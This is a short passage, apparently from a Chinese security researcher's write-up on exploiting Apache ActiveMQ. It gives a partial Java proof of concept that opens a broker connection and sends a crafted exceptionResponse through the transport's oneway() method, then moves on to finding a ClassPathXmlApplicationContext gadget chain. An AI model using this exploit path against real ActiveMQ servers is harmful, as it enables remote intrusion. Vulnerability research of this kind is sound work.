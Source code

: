 ![image.png](assets/1700814472-a722dfb976de825f98351b515fea4133.png)

//创建连接工厂  
ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
//创建连接  
Connection connection = activeMQConnectionFactory.createConnection();  
//打开连接  
connection.start();

//获取oneway方法

((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);

# **四、\*\***ClassPathXmlApplicationContext**\*\*类**

问题2:寻找到一个构造函数为String类型的利用链;

这里其他师傅已经找到利用的点了，这里就简单弄一下。

[https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw](https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw)
